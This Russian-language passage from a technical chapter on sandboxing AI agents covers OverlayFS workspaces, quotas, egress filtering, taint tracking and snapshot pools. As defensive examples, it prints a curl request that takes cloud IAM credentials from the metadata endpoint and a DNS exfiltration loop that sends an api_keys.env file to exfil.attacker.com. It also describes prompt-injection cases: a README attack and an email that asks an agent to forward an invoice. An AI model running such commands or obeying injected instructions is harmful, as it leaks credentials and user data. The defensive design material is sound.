| **Контейнер с общим ядром** | Весь интерфейс ядра хоста, отфильтрованный           | Любая пользовательская программа Linux                 | Менее секунды                | Доверенный код; работа только на чтение без секретов в досягаемости |
| **Пользовательское ядро**   | Небольшой набор вызовов хоста за эмулирующим ядром   | Большинство программ Linux, медленнее при большом числе системных вызовов | Менее секунды | Недоверенный интерпретируемый код со скромными входными и выходными данными |
| **MicroVM**                 | Минимальный монитор и интерфейс гипервизора          | Любая программа Linux на собственном ядре              | Миллисекунды из снимка       | Недоверенный нативный код, установка пакетов, многоходовое программирование |
| **Песочница байт-кода**     | Только функции, которые импортирует хост             | Код, скомпилированный в целевой байт-код               | Микросекунды                 | Чистые вычисления, парсеры, инструменты поштучного вызова   |

<a id="tbl-vol3-isolation-taxonomy"></a>

***Изолирующие оболочки для кода агента**: четыре оболочки, сравниваемые по тому, что недоверенный код разделяет с хостом, какой код он может запускать и порядку величины стоимости запуска.*

Выбор следует из трех свойств действия. Первое — код, который оно выполняет. Чистые вычисления подходят песочнице байт-кода, произвольные программы Linux требуют пользовательского ядра или microVM, а в контейнере с общим ядром место только доверенному коду. Второе — полномочия, которыми оно обладает. На уровне $A_1$ оболочка — это вся гарантия, поэтому код, написанный моделью, получает собственное ядро. На уровнях $A_2$ и $A_3$ оболочку нужно дополнять посредничеством и шлюзами, поскольку она не может сдержать внешний эффект. Третье — длительность, то есть экспозиция горизонта в работе. Восстановление microVM из снимка занимает около `15` мс в иллюстративном профиле песочницы агента для программирования, который использует эта глава. Это в 5× больше работы одного вызова регулярного выражения за `3` мс, но всего `0.0006 percent` от `40`-минутной траектории программирования, которая переиспользует ту же оболочку на протяжении сотен ходов. Три рабочие нагрузки, с которых открылся раздел, поэтому попадают в три разных места. Инструмент регулярных выражений запускается в свежей песочнице байт-кода на каждый вызов. Агент программирования удерживает одну microVM на всю траекторию, а бинарный файл заказчика запускается в microVM, которая не содержит учетных данных и для которой исходящий трафик запрещен.

Оболочка ограничивает то, к чему может прикоснуться процесс. Однако работа агента программирования живет в файлах, которые должны сохраняться от одного хода к следующему, а одна лишь оболочка ничего не говорит о том, откуда эти файлы берутся и куда уходят.

<a id="sec-vol3-sandboxes-cow"></a>

## Рабочее пространство агента

На двенадцатом ходу агент программирования редактирует три файла, на тридцать первом запускает набор тестов, а на сороковом каркас собирает его изменения. Если бы каждый вызов инструмента выполнялся в свежей песочнице, правки терялись бы между ходами. Если бы траектория работала в собственной рабочей копии разработчика, случайный `rm -rf` уничтожил бы эталонное состояние, от которого зависят другие траектории и люди. Копирование репозитория и инструментария для каждой траектории сохраняет и то, и другое, но перемещает гигабайты на каждую траекторию, а параллельные траектории умножают эти байты на свое количество. Рабочее пространство — это состояние $S_2$ задачи в терминах [«Экспозиции H·S·A»](01_introduction.md#sec-vol3-intro-hsa): артефакты, которые переносятся между ходами внутри песочницы, которую среда выполнения может отбросить. Ему нужна более дешевая конструкция, чем любая из трех названных.

Ее обеспечивает оверлей с копированием при записи. Базовый образ только для чтения, содержащий репозиторий на фиксированном коммите вместе с инструментарием и установленными зависимостями, разделяют все траектории, работающие над этой задачей. Каждая траектория получает собственный записываемый верхний слой поверх базового. Чтение проваливается в базовый образ, поэтому неизмененные файлы обслуживаются из одной копии в кеше страниц хоста, сколько бы траекторий их ни читало. Первая запись в файл копирует его в верхний слой, а удаление записывает в верхний слой маркер, который скрывает базовый файл. Запуск рабочего пространства поэтому стоит монтирования, а не копирования. В конце верхний слой содержит ровно то, что изменила траектория, то есть именно тот дифф, который она породила.

У копирования при записи есть одна ловушка, о которой стоит позаботиться заранее. Копирование происходит на уровне файла, поэтому добавление одной строки к большой бинарной фикстуре копирует всю фикстуру в верхний слой. Если много траекторий делают это одновременно, они насыщают пропускную способность хранилища хоста. Пометка больших фикстур как доступных только для чтения, вынос больших данных за пределы образа или использование снимков на уровне блоков для задач с большими данными не дают записи одной строки стоить гигабайта. Блокнот [«Запуск параллельных рабочих пространств и ловушка копирования при первой записи»](08_sandboxes.md#nbk-08-workspace-copy-vs-overlay) оценивает три случая для одного хоста оценки.

<a id="nbk-08-workspace-copy-vs-overlay"></a>

> **Расчет: запуск параллельных рабочих пространств и ловушка копирования при первой записи**
>
> **Задача:** узел оценки запускает 32 траектории программирования одновременно над одной задачей. Базовый образ с репозиторием, его инструментарием и зависимостями занимает 2,4 ГБ, а каждая траектория записывает около 40 МБ правок и результатов сборки. Образ также содержит бинарную тестовую фикстуру размером 1,2 ГБ. Рабочие пространства находятся на одном локальном NVMe-накопителе, который последовательно передает около 7 ГБ/с. Что записывает каждая схема и сколько времени диск занимает в лучшем случае?
>
> **Полное копирование:** каждая траектория копирует образ до своего первого хода, всего 76,8 ГБ. Диск занят не меньше 11 с до того, как запустится любой агент, и 32 избыточные копии удерживаются в кеше страниц.
>
> **Оверлей:** запуск рабочего пространства — это монтирование, и на диск попадает только то, что записывают траектории: 1,28 ГБ за весь прогон. Это около 0,18 с дискового времени и в 60 раз меньше байтов, чем при копировании.
>
> **Ловушка копирования при первой записи:** если тестовый скрипт добавляет одну строку к фикстуре, каждая траектория копирует всю фикстуру в свой верхний слой. Вместе они записывают 38,4 ГБ, то есть задержка составляет не меньше 5,5 с из-за однострочной записи.
>
> **Системный вывод:** оверлей делает запуск рабочего пространства почти бесплатным и заставляет его стоимость следовать за тем, что агент меняет, а не за тем, что он видит. Единственный режим отказа масштабируется с размером файлов, которых касается агент, поэтому большие фикстуры должны жить вне записываемого пути.

### Топологии многоуровневой виртуальной файловой системы и механика copy-up

Современные песочницы выполнения в Linux реализуют изоляцию хранилища с копированием при записи в основном через *OverlayFS*, объединяющую файловую систему ядра, встроенную в виртуальную файловую систему Linux (VFS). OverlayFS объединяет два или более деревьев каталогов в единое пространство имен, которое предъявляется пользовательскому пространству:

1. **`lowerdir`:** один или несколько базовых каталогов только для чтения, которые содержат корневую файловую систему базовой операционной системы, языковые среды выполнения и исходную копию Git-репозитория.
2. **`upperdir`:** закрытый записываемый каталог, в котором фиксируются все изменения файлов, их создание и маркеры удаления.
3. **`workdir`:** пустой вспомогательный каталог на той же файловой системе, что и `upperdir`, который ядро использует для подготовки атомарных операций над каталогами и файлами.
4. **`merged`:** виртуальная точка монтирования, которая предъявляется процессу агента в песочнице.

```bash
# Создание рабочего пространства с копированием при записи для песочницы агента
mount -t overlay overlay -o lowerdir=/images/golden_repo,upperdir=/sandboxes/agent_42/upper,workdir=/sandboxes/agent_42/work /sandboxes/agent_42/merged
```

Иерархия виртуальной файловой системы и обязанности компонентов подробно описаны в [«Иерархия слоев OverlayFS и роли виртуализации inode»](08_sandboxes.md#tbl-vol3-overlayfs-layers).

| Идентификатор слоя   | Параметр монтирования | Доступ POSIX          | Носитель хранения             | Роль ядра при посредничестве inode                                                                                                   |
|:---------------------|:----------------------|:----------------------|:------------------------------|:-------------------------------------------------------------------------------------------------------------------------------------|
| **Объединенное представление** | точка монтирования `merged` | Чтение-запись | Синтетическое объединение VFS | Предъявляет процессу агента единое дерево файловой системы. Лениво посредничает при обходе путей между верхним и нижним слоями.      |
| **Верхний черновик** | `upperdir`            | Чтение-запись         | Эфемерное хранилище хоста     | Фиксирует все новые файлы, измененные файлы, скопированные вверх через `ovl_copy_up`, структуры каталогов и маркеры-пустышки (whiteout) в виде символьных устройств `0/0`. |
| **Рабочий каталог подготовки** | `workdir`   | Чтение-запись (внутреннее) | Та же файловая система, что и `upperdir` | Ядро использует его для промежуточных записей и атомарных переименований, не давая оборванным записям испортить рабочее пространство. |
| **Нижняя база**      | `lowerdir`            | Только чтение         | Неизменяемый эталонный образ  | Общая базовая файловая система с неизмененным исходным кодом, компиляторами и инструментарием. Разделяется только для чтения всеми одновременными песочницами. |

<a id="tbl-vol3-overlayfs-layers"></a>

***Иерархия слоев OverlayFS и роли виртуализации inode**: роли каталогов, права доступа и динамика посредничества ядра при виртуализации рабочего пространства с копированием при записи.*

Когда агент выполняет `open(path, O_RDONLY)`, VFS сначала разрешает путь через `upperdir`. Если там файла нет, она переходит к `lowerdir`, обеспечивая чтение с родной скоростью файловой системы без копирования. Однако когда агент открывает существующий файл нижнего слоя с намерением записи (`O_WRONLY` или `O_RDWR`), OverlayFS запускает синхронную операцию *copy-up*: ядро выделяет новый inode в `upperdir`, копирует все содержимое файла из `lowerdir` в `upperdir`, копирует расширенные атрибуты и перенаправляет файловый дескриптор на новую реплику. Так регулируются операции POSIX, сведенные в [«Операции POSIX в OverlayFS и динамика жизненного цикла inode»](08_sandboxes.md#tbl-vol3-overlayfs-operations).

| Операция POSIX               | Состояние в `lowerdir` | Исходное состояние в `upperdir` | Действие ядра                                            | Видимое состояние в `merged`  |
|:-----------------------------|:-----------------------|:--------------------------------|:---------------------------------------------------------|:------------------------------|
| **Чтение файла** (`O_RDONLY`) | Есть                  | Отсутствует                     | Читает нижний inode напрямую; без копирования            | Содержимое файла из `lowerdir` |
| **Изменение файла** (`O_RDWR`) | Есть                 | Отсутствует                     | Запускает `ovl_copy_up`; копирует весь файл в `upperdir` | Изменяемый файл в `upperdir`  |
| **Создание файла** (`O_CREAT`) | Отсутствует          | Отсутствует                     | Выделяет новый inode непосредственно в `upperdir`        | Вновь созданный верхний файл  |
| **Удаление файла** (`unlink`) | Есть                  | Отсутствует                     | Создает маркер-пустышку `0/0` в `upperdir`               | Файл отсутствует (`-ENOENT`)  |
| **Удаление файла** (`unlink`) | Есть                  | Есть (скопирован вверх)         | Удаляет верхний файл и заменяет его маркером `0/0`       | Файл отсутствует (`-ENOENT`)  |
| **Очистка каталога** (`rmdir`) | Каталог есть         | Отсутствует                     | Создает каталог в `upperdir` с непрозрачным расширенным атрибутом | Пустой каталог (`.`, `..`) |

<a id="tbl-vol3-overlayfs-operations"></a>

***Операции POSIX в OverlayFS и динамика жизненного цикла inode**: разрешение на уровне ядра и поведение copy-up между нижним и верхним слоями во время выполнения агента.*

Чтобы обрабатывать удаления, не изменяя неизменяемую базу, OverlayFS создает особые *маркеры-пустышки* (whiteout). Когда агент выполняет `rm tests/test_cases.py`, ядро создает в `upperdir` символьное устройство с номерами старшего и младшего устройства, равными нулю:

$$\text{dev\_t} = \text{makedev}(0, 0)$$

Последующие поиски путей, которые натыкаются на символьное устройство `0/0`, скрывают нижний файл и возвращают `-ENOENT`.

#### Ловушка усиления записи при copy-up

Механизм copy-up вносит тонкую, но серьезную проблему производительности: усиление записи на больших фикстурах. Если кодирующий агент добавляет один байт к базе данных SQLite объемом 5 ГБ, файлу весов модели машинного обучения или бинарной тестовой фикстуре, которые находятся в `lowerdir`, OverlayFS должна скопировать все 5 ГБ в `upperdir` до выполнения добавления в 1 байт:

```bash
# Запуск copy-up на 5 ГБ добавлением метки времени к тестовой фикстуре
echo "TEST_EPOCH=1719200000" >> tests/fixtures/test_suite.bin
```

Этот copy-up блокирует дентри файла, исчерпывает пропускную способность хранилища и может остановить выполнение агента на десятки секунд. Проектировщики систем смягчают это, разбивая большие фикстуры на части или монтируя большие фикстуры только для чтения на выделенные устройства loopback, которые обходят оверлей.

#### Принудительное обеспечение квоты хранилища черновика

Чтобы предотвратить отказ в обслуживании через исчерпание диска (например, из-за неограниченной модели, которая генерирует бесконечные циклы вывода), среды выполнения вводят строгие квоты хранилища для `upperdir` с помощью квот проекта XFS или размещения `upperdir` на `tmpfs` ограниченного размера:

```bash
# Назначение квоты хранилища 2 ГБ верхнему каталогу черновика агента
xfs_quota -x -c 'project -s -p /sandboxes/agent_42/upper 42' /sandboxes
xfs_quota -x -c 'limit -p bsoft=2g bhard=2g 42' /sandboxes
```

<a id="sec-vol3-sandboxes-lease"></a>

### Аренды рабочих пространств по траекториям, сброс по арендаторам

Время жизни рабочего пространства определяется экспозицией горизонта. Среда выполнения связывает рабочее пространство, оболочку, сетевую идентичность для исходящего трафика и посредничаемые учетные данные в одну *аренду рабочего пространства*, привязанную к траектории. В отличие от аренды в полете из [«Выполнение идемпотентных действий»](07_tool_calling.md#sec-vol3-tool-calling-idempotency), которая защищает один вызов от повторного выполнения, аренда рабочего пространства владеет средой на протяжении всей траектории. Все в аренде сохраняется между ходами, потому что многоходовому агенту нужны его прежние правки и прогретый кеш сборки. Все заканчивается вместе с траекторией. Аренда несет жесткий срок истечения, чтобы брошенная траектория не могла удерживать песочницу бесконечно. Запись траектории, которая ее держит, принадлежит каркасу (глава 9, «Запись траектории»). Когда аренда заканчивается, среда выполнения экспортирует верхний слой как дифф для оценки или одобрения и затем его отбрасывает. Ничто из рабочего пространства никогда не передается другой траектории или арендатору. То, что должно пережить падение самого каркаса, а не обычное окончание аренды, рассматривается в главе 10 («Долговечное выполнение»).

Три дополнительных правила делают рабочее пространство безопасным для передачи коду, написанному моделью. Верхний слой находится на файловой системе с квотой на объем и количество файлов, поэтому разросшаяся сборка или намеренный цикл, заполняющий диск, исчерпывает только свою долю. По той же причине группы управления оболочки ограничивают ЦП, память и число процессов. Тестовые фикстуры и скрипты оценки монтируются только для чтения извне записываемого слоя, так что агент может запустить свой верификатор, но не может его редактировать. Это рабочая половина запечатанной оценки, которая описана в главе 12 («Герметичные полигоны оценки»).

Рабочее пространство ограничивает то, что код может изменить. Атака через README, однако, требовала лишь что-то отправить, а отправка происходит по сети.

<a id="sec-vol3-sandboxes-network"></a>

## Контроль исходящего трафика


*Ограничение частоты DNS-запросов и длины меток растягивает субсекундную эксфильтрацию больше чем на полчаса.*

Вернемся к атаке через README при уже работающем посредничестве, так что файла с учетными данными в песочнице нет. Внедренная команда все равно может отправить исходный код репозитория на конечную точку злоумышленника. В облачном хосте все может быть хуже. Запрос к конечной точке метаданных экземпляра по локальному адресу (link-local) возвращает временные учетные данные облачной роли самого хоста любому локальному вызывающему. Эта подделка запроса на стороне сервера (SSRF) превращает сетевой доступ песочницы в идентичность хоста. Контроль исходящего трафика сужает третье условие модели угроз, то есть канал наружу.

Проект исходит из нулевой неявной достижимости. У новой песочницы нет маршрута по умолчанию. Ее единственный путь наружу ведет к прокси исходящего трафика, которым управляет среда выполнения, а фильтр пакетов на виртуальном сетевом интерфейсе песочницы обеспечивает этот путь в ядре хоста. Фильтр отбрасывает трафик к диапазону метаданных с локальным адресом, к приватным диапазонам адресов и к петлевому интерфейсу, отбрасывает соединения с сырыми IP-адресами и пропускает только трафик, адресованный прокси. Затем прокси решает для каждого запроса, разрешено ли назначение. [«Контроль исходящего трафика для песочницы»](08_sandboxes.md#fig-vol3-network-egress) показывает этот путь.

<a id="fig-vol3-network-egress"></a>


***Контроль исходящего трафика для песочницы**: исходящий трафик из изолированного сетевого пространства имен песочницы встречает фильтр пакетов ядра, который отбрасывает трафик к конечной точке метаданных, приватным диапазонам и сырым IP-адресам и пропускает только соединения с прокси исходящего трафика. Прокси сверяет имя сервера TLS со списком разрешенных, проверяет тела исходящих запросов на наличие секретов и обслуживает DNS через резолвер с раздельным горизонтом (split-horizon), который ограничивает длину меток, фильтрует метки с высокой энтропией и ограничивает частоту запросов. Разрешенный трафик доходит до реестров пакетов и собственного репозитория задачи, тогда как запрос метаданных, обратная оболочка (reverse shell) и хост вне списка блокируются и журналируются.*

Прокси может применять свой список разрешенных на двух уровнях глубины, которые сравниваются в [«Глубина фильтрации исходящего трафика»](08_sandboxes.md#tbl-vol3-egress-filtering). Фильтрация по имени сервера в рукопожатии TLS дешева и оставляет проверки клиентских сертификатов нетронутыми, но как только соединение с разрешенным хостом открыто, прокси не видит, что по нему проходит. Терминирование TLS на прокси раскрывает методы, пути и тела, но ценой установки в песочницу удостоверяющего центра, которым владеет среда выполнения, и поломки инструментов, которые закрепляют сертификаты (certificate pinning).

| Свойство                      | Фильтрация по имени сервера                 | Терминирование TLS на прокси                         |
|:------------------------------|:--------------------------------------------|:-----------------------------------------------------|
| **Что видит прокси**          | Только имя конечного хоста                  | Метод, путь, заголовки и тело                        |
| **Хранилище доверия в песочнице** | Не изменяется                          | Должно доверять удостоверяющему центру, которым владеет среда выполнения |
| **Накладные расходы прокси**  | Проверяет рукопожатие, затем пересылает байты | Расшифровывает и повторно шифрует каждый запрос      |
| **Утечка через разрешенный хост** | Возможна, например в теле запроса       | Блокируется правилами по методу и пути и проверкой тела |
| **Совместимость с инструментами** | Высокая, включая клиенты с закреплением сертификатов | Ниже, поскольку клиенты с закреплением отвергают прокси |

<a id="tbl-vol3-egress-filtering"></a>

***Глубина фильтрации исходящего трафика**: фильтрация по имени сервера TLS в сравнении с терминированием TLS на прокси исходящего трафика: по тому, что каждый вариант видит, чего он стоит и что ломает.*

Это различие важно, потому что разрешенный хост все равно остается каналом. Траектория, которой разрешено обращаться к публичному хостингу кода, может выложить секрет в публичный gist так же легко, как клонировать репозиторий. Посредничество сужает этот канал дальше: прокси добавляет учетные данные только для тех методов и ресурсов, которые покрывает возможность. Оно может разрешить чтение из реестра пакетов, а отправку разрешить только в собственную ветку траектории. Тогда неаутентифицированная загрузка в произвольный gist завершится неудачей на дальнем конце.

### Примитив запрета по умолчанию и сдерживание SSRF

По умолчанию сетевой интерфейс песочницы агента должен отбрасывать все исходящие пакеты. Самый важный вектор угрозы, который смягчает фильтрация с запретом по умолчанию, — это подделка запроса на стороне сервера (SSRF), направленная на сервисы метаданных облака. Облачные виртуальные машины раскрывают метаданные экземпляра и временные учетные данные IAM по IPv4-адресу с локальным каналом `169.254.169.254` (или `[fd00:ec2::254]` в IPv6). Если у агента есть неограниченный сетевой доступ, внедренный в промпт скрипт может обратиться к конечной точке метаданных экземпляра и выгрузить учетные данные супервизора хоста:

```bash
$ curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/HostRole
```

Фильтры пакетов хоста (на основе `nftables` или `iptables`) должны безусловно отбрасывать весь трафик, адресованный `169.254.169.254`, а также приватные IPv4-подсети RFC 1918 (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`), чтобы предотвратить боковое перемещение во внутреннюю инфраструктуру кластера.

### Прозрачное пересылающее проксирование и внедрение учетных данных

Когда агенту законно нужен внешний сетевой доступ (например, чтобы скачать языковые пакеты из PyPI или обратиться к репозиторию GitHub), песочница направляет трафик HTTP/HTTPS через посредническую пересылающую прокси:

```bash
export HTTP_PROXY="http://10.0.0.1:8080"
export HTTPS_PROXY="http://10.0.0.1:8080"
export NO_PROXY="localhost,127.0.0.1"
```

Демон прокси на хосте проверяет назначения по явному списку разрешенных доменов. Кроме того, прокси обеспечивает *внедрение учетных данных*: вместо того чтобы помещать чувствительные API-токены (например, персональный токен доступа GitHub) в файловую систему или переменные окружения песочницы, прокси перехватывает исходящие запросы и вставляет заголовок `Authorization: Bearer <token>` в пользовательском пространстве хоста. Код в песочнице никогда не владеет секретом, который использует.

### Скрытые DNS-каналы и механика эксфильтрации

Когда HTTP- и TCP-исходящий трафик заблокирован, злоумышленник может использовать рекурсивное разрешение DNS как скрытый канал эксфильтрации. Поскольку стандартные сетевые стеки операционных систем требуют UDP-порт 53 для разрешения имен хостов, состязательный скрипт может закодировать конфиденциальные файлы (например, переменные окружения или приватные ключи) в строки base32 или hex и отправлять DNS-запросы для поддоменов корневого домена, контролируемого злоумышленником:

```bash
$ cat /workspace/api_keys.env | base32 | tr -d '\n' | fold -w 50 | \
    while read chunk; do dig +short "${chunk}.exfil.attacker.com"; done
```

Рекурсивный DNS-резольвер пересылает запрос через публичный интернет на авторитетный сервер имен `attacker.com`, который записывает полезную нагрузку запросов и собирает выгруженный секрет по частям.

Чтобы нейтрализовать DNS-эксфильтрацию, песочница должна запрещать произвольные исходящие соединения по UDP-порту 53. Весь DNS-трафик принудительно направляется через выделенный локальный кеширующий резольвер, который обеспечивает:

1. **Список разрешенных FQDN**: разрешает только заранее одобренные имена доменов.
2. **Отбрасывание запросов с раздельным горизонтом**: отбрасывает все запросы к корневым доменам, не входящим в белый список, до передачи пакетов.
3. **Ограничения длины запроса и энтропии**: перехватывает и сигнализирует о запросах длиннее 64 символов или с высокой энтропией Шеннона, характерной для закодированных данных.

<a id="sec-vol3-sandboxes-taint"></a>

## Отслеживание недоверенных данных

Агент поддержки читает входящие письма клиента и может отвечать на них: это доступ на чтение плюс инструмент уровня $A_2$. Одно из входящих писем заканчивается просьбой переслать последний счет на внешний аудиторский адрес. Все механизмы, описанные до сих пор, одобряют получившийся вызов. Инструмент `send_email` был выдан, почтовый API есть в списке разрешенных исходящего трафика, прокси хранит почтовые учетные данные, а оболочка никогда не видит, как счет покидает песочницу, потому что счет уходит как аргумент инструмента. Канал эксфильтрации — это сам инструмент.

Отслеживание потоков данных, которое также называют отслеживанием меток (taint tracking), закрывает этот пробел, следуя за тем, откуда берутся значения, а не за тем, куда уходят пакеты. Идея пришла из управления информационными потоками в операционных системах и языках программирования (Myers and Liskov, 1997; Krohn et al., 2007). Среда выполнения прикрепляет к каждому значению метку, которая фиксирует его происхождение, используя теги происхождения, которые [«Подготовка следующего вызова»](04_context_engineering.md#sec-vol3-context-engineering-staging) прикрепляет к каждому наблюдению. Значение, полученное из помеченного, наследует метку. Политика принудительно обеспечивается на границе инструмента. Значение с недоверенной меткой не может попасть в аргумент, который направляет эффект через границу доверия, например в адрес получателя, URL, целевой хост или команду оболочки, если его не пропустит шлюз одобрения (глава 9, «Шлюзы одобрения»).

Модель обесценивает это отслеживание, если применять его наивно. Каждый токен, который выдает модель, зависит от всего ее контекста, поэтому, как только недоверенный текст попадает в контекст, единственная надежная метка для следующего предложения — недоверенная. После первой загруженной веб-страницы каждый аргумент каждого последующего вызова несет эту метку, и политика, которая требует одобрения для помеченных аргументов, требует одобрения для всего.

Шаблон «читателя за карантином» восстанавливает точность, не давая недоверенному тексту доходить до модели, которая выбирает действия. Модель-планировщик видит только запрос пользователя и доверенный контекст и выдает план, в котором недоверенное содержимое фигурирует только как непрозрачные ссылки, например `$message_body` или `$invoice_date`. Отдельная модель-читатель, у которой нет инструментов, обрабатывает недоверенное содержимое и возвращает значения, привязанные к этим ссылкам, в идеале как узкие структурированные типы (логическое значение, перечисление, дату). Их обеспечивает грамматически ограниченное декодирование из [«Декодирование с грамматическими ограничениями»](02_foundation_model.md#sec-vol3-foundation-model-grammar-constrained). Среда выполнения исполняет план, подставляет значения читателя в аргументы инструментов и применяет политику меток по каждому аргументу, потому что каждое подставленное значение теперь несет собственную метку. Инструкция, подброшенная в письме, может изменить то, что извлекает читатель, но не может изменить план. Политика решает, может ли помеченное значение попасть в поле получателя.

У шаблона есть реальные издержки. Планировщик не может ветвиться по содержимому, которого не видит, поэтому план должен быть выражен до того, как прочитан недоверенный текст. Каждый шаг требует двух вызовов модели. Читателя все еще можно направить на возврат неверного значения в пределах его типа, поэтому помеченный получатель все равно уходит на одобрение, а не прямо к отправке. Шаблон меняет место, где происходит принудительное обеспечение. Вместо того чтобы полагаться на то, что модель проигнорирует подброшенные инструкции (что лишь снижает их успешность), среда выполнения проверяет явный поток данных до отправки, как того требует принцип замыкания инвариантов ([«Принцип замыкания инвариантов»](01_introduction.md#pri-invariant-closure)). Использование меток, чтобы задним числом изолировать последствия отказа, — это техника восстановления. Ее разбирает глава 11 (раздел «Карантин радиуса поражения»).

Каждый механизм этой главы оплачивается до первого хода. Оболочка должна загрузиться, оверлей смонтироваться, сетевое пространство имен и маршрут через прокси настроиться, а учетные данные выпуститься. Пока эти издержки не скрыты, они подталкивают операторов пропускать границу.

<a id="sec-vol3-sandboxes-pooling"></a>

## Пулы песочниц и сброс

Оценочный прогон запускает пятьсот траекторий программирования в один и тот же момент, и каждой нужна microVM со свежим рабочим пространством, сетевым пространством имен и ограниченными учетными данными. Если каждая оболочка загружается по требованию, загрузки выстраиваются в очередь на хосте, и первый вызов инструмента половины прогона ждет, пока остальные закончат. Обучение с подкреплением предъявляет то же требование в большем масштабе: тысячи коротких траекторий (rollouts), и каждой нужна чистая среда. Предварительно прогретые пулы с жестким контрактом сброса позволяют среде выполнения сохранять самую сильную оболочку, не платя ее стоимость запуска на критическом пути.

<a id="sec-vol3-sandboxes-pooling-frontier"></a>

### Граница «задержка–изоляция»

Два крайних случая задают рамки проекта. Свежая оболочка для каждого вызова инструмента дает самую строгую гигиену, поскольку ни один вызов никогда не делит изменяемое состояние с другим, но она платит полную стоимость запуска на каждом вызове и выбрасывает рабочее пространство между ходами. Постоянная среда, которая переиспользуется в рамках сессии или между сессиями, ничего не стоит на запуск, но в ней все накапливается: фоновые процессы с предыдущих ходов, файлы во временных каталогах, открытые сокеты и любой компромисс, который смогла заложить внедренная инструкция. Пул находится между ними. Среда выполнения хранит уже инициализированные и ждущие оболочки, выдает по одной каждой траектории на всю ее жизнь ([«Аренды рабочих пространств по траекториям, сброс по арендаторам»](08_sandboxes.md#sec-vol3-sandboxes-lease)), а по окончании аренды возвращает оболочку в известное состояние откатом или уничтожает ее.

<a id="fig-vol3-sandbox-pool-lifecycle"></a>


***Жизненный цикл пула песочниц**: оболочка пула ожидает в состоянии `WARM_STANDBY` с приостановленными виртуальными ЦП, памятью, отображенной из эталонного снимка, и без подключенной сети. Запрос аренды переводит ее в состояние `LEASED` в пределах миллисекунд: монтируется верхний слой траектории, подключается ее сетевое пространство имен и возобновляется исполнение. Когда траектория заканчивается или ее аренда истекает, оболочка переходит в `TAINTED` и не может обслуживать другую аренду. `RECLAIMING` отбрасывает верхний слой, возвращает приватные страницы памяти к снимку и проверяет результат, возвращая чистую оболочку в режим ожидания, а любой сбой направляя в `DESTROYED`.*

[«Жизненный цикл пула песочниц»](08_sandboxes.md#fig-vol3-sandbox-pool-lifecycle) прослеживает одну оболочку через пул. Важнее всего состояние `TAINTED`: правило, что оболочка, чья аренда закончилась, никогда не может обслужить другую аренду, пока что-то за пределами гостя не вернет ее в известное состояние.

<a id="sec-vol3-sandboxes-pooling-snapshots"></a>

### Восстановление из снимка

Держать много полностью загруженных гостей в простое стоило бы полной памяти каждого гостя. Восстановление из снимка этого избегает. Среда выполнения загружает один эталонный гостевой образ до готового состояния, с поднятым ядром, запущенным интерпретатором и загруженными зависимостями задачи, а затем сохраняет его память и состояние устройств. Новая оболочка отображает сохраненную копию памяти с копированием при записи и подтягивает страницы лениво по мере того, как гость к ним обращается, поэтому простаивающая оболочка стоит немногим больше таблиц страниц и состояния монитора. Страницы, которые никакой гость не записывает, например текст ядра, общие библиотеки и загруженный байт-код, существуют в памяти хоста в единственном экземпляре на весь пул. Только страницы, которые записывает траектория, становятся ее приватными. В иллюстративном профиле песочницы агента для программирования, который использует эта глава, получение оболочки из прогретого пула занимает 5 мс, восстановление новой из снимка — 15 мс, а полный образ гостя занимает 0,537 ГБ.

### Восстановление снимка через userfaultfd с подкачкой по требованию

Повторная гидратация экземпляра из снимка памяти позволяет обойти всю последовательность загрузки ядра. Вместо того чтобы выделять свежую физическую память и копировать гигабайты состояния по шине памяти хоста, супервизор инициализирует новый контекст виртуальной машины KVM и отображает сериализованный файл снимка с помощью системного вызова Linux `mmap` с приватной семантикой копирования при записи:

$$\text{HVA} = \text{mmap}\left(\text{NULL}, M_{\text{guest}}, \text{PROT\_READ} \mid \text{PROT\_WRITE}, \text{MAP\_PRIVATE}, \text{fd}_{\text{snapshot}}, 0\right)$$

При `MAP_PRIVATE` ядро операционной системы хоста не копирует физические страницы памяти в адресное пространство нового процесса во время инициализации. Вместо этого оно создает записи таблицы страниц, которые ссылаются на страницы кеша файла только для чтения из эталонного шаблона-снимка. Несколько одновременных песочниц разделяют одни и те же физические страницы ОЗУ для всех операций только для чтения, включая текст ядра, общие библиотеки и байт-код Python.

Для распределенных или сетевых снимков механизм `userfaultfd` (UFFD) в Linux обеспечивает ленивую подгрузку страниц по требованию. Когда виртуальный ЦП гостя пытается выполнить код или прочитать память на неотображенной физической странице гостя, нарушение EPT передает управление ядру хоста в виде ловушки. Ядро хоста приостанавливает поток виртуального ЦП и отправляет уведомление о страничном сбое через дескриптор файла `userfaultfd` демону-поставщику страниц в пользовательском пространстве. Демон получает страницу размером 4 КБ по сети или с локального накопителя NVMe, регистрирует ее через `ioctl(uffd, UFFDIO_COPY)` и возобновляет исполнение виртуального ЦП. Жизненный цикл описан в [«Жизненный цикл страниц по требованию в userfaultfd и переходы состояний»](08_sandboxes.md#tbl-vol3-uffd-states).

| Классификация страницы       | Размещение в памяти               | Запись таблицы страниц хоста (PTE) | Триггер доступа гостя                    | Разрешение ядром и динамика копирования                                           |
|:-----------------------------|:----------------------------------|:--------------------------------|:-----------------------------------------|:----------------------------------------------------------------------------------|
| **Непрочитанная страница снимка** | Файл образа на NVMe          | `PTE_PRESENT = 0` (не отображена) | Выборка инструкции гостем или чтение  | Ловушка MMU хоста; передает сообщение об отсутствующей странице через дескриптор `userfaultfd`. |
| **Запрос подкачки в полете** | Буфер памяти супервизора хоста   | Приостановленный поток виртуального ЦП | Асинхронная выборка страницы        | Супервизор вызывает `ioctl(uffd, UFFDIO_COPY, ...)`, чтобы заполнить физический кадр хоста. |
| **Общая страница только для чтения** | Кеш страниц хоста (эталонный шаблон) | `PTE_PRESENT = 1`, `PROT_READ` | Последующие чтения гостем        | Прямые чтения из DRAM хоста без дублирования; общие для $N$ microVM.              |
| **Грязная приватная страница CoW** | Приватный кадр DRAM хоста     | `PTE_PRESENT = 1`, `PROT_WRITE` | Намерение записи гостя (`store`, стек/куча) | Страничный сбой записи MMU хоста; прозрачно дублирует кадр 4 КиБ в приватную DRAM. |

<a id="tbl-vol3-uffd-states"></a>

***Жизненный цикл страниц по требованию в userfaultfd и переходы состояний**: состояния памяти, перехват страничных сбоев и динамика дублирования страниц при копировании при записи во время выполнения microVM.*

<a id="sec-vol3-sandboxes-pooling-reset"></a>

### Контракт сброса

